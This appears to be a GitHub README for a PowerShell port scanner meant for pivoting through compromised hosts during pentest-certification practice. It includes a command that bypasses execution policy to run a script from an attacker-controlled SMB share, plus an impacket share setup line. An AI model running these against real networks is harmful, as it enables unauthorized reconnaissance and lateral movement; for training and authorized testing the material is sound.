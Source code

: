 # PowerShell-PortScan-Top-1000-Ports
Quick and Easy PowerShell PortScan of the Top 1000 Ports - CSTL Special

Another tool I'm putting together as part of my CSTL Prep.

Quick PowerShell Script to find open ports on a remote network you are pivoting through.

You can either put the script on the box you have popped and run it pointing at the remote network or call it via a UNC Path

## Quick Useage

[+] Setup SMB Share on Kali - `impacket-smbserver <share name> <share path> -smb2support`

[+] Run from CMD - `powershell.exe -nop -ep bypass -File \\192.168.0.50\share\portscan.ps1`

```
C:\Users\gd\Desktop>powershell.exe -nop -ep bypass -File \\192.168.0.50\gd\PortScan.ps1
Now Scanning 172.16.51.4
22 is Open
25 is Open
80 is Open
```

## One-Liner

If you have access to Powershell then just dump the script in and it will chug away

![image](https://github.com/deeexcee-io/PowerShell-PortScan-Top-1000-Ports/assets/130473605/8bd0c556-2488-4fe9-b60d-e48fdb6e0161)



